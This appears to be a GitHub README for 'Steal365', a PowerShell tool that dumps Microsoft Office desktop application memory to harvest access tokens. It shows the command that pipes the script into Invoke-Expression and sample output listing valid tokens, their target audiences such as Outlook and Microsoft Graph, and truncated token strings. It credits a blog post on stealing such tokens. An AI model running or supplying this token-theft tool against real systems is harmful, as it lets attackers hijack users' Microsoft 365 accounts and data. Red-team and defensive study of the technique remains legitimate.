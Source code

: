# Steal365
Dumping tokens from Microsoft Office desktop applications’ memory

### Run
```
PS C:\Users\IEUser> gc .\Steal365.ps1 | iex
[!] WINWORD
[+] Dump ONENOTE ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:25:02
    + aud: https://outlook.office365.com/
    + Token: eyJ0eX[...]uE4w

[!] POWERPNT
[+] Dump OUTLOOK ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:26:41
    + aud: https://outlook.office365.com/
    + Token: eyJ0eX[...]nORg

[!] EXCEL
[+] Dump OneDrive ok
  \-- Looking for tokens...
    + Valid token: 15/09/1995 02:25:17
    + aud: 00000003-0000-0000-c000-000000000000
    + Token: eyJ0eX[...]I32n

    + Valid token: 15/09/1995 02:22:48
    + aud: ab9b8c07-8f02-4f72-87fa-80105867a763
    + Token: eyJ0eX[...]VOQg

    + Valid token: 15/09/1995 02:27:55
    + aud: https://clients.config.office.net/
    + Token: eyJ0eX[...]OzMA

    + Valid token: 15/09/1995 02:49:22
    + aud: https://wns.windows.com
    + Token: eyJ0eX[...]6-YA
```

### Inspired by
[Stealing Access Tokens From Office Desktop Applications](https://mrd0x.com/stealing-tokens-from-office-applications/)<br>

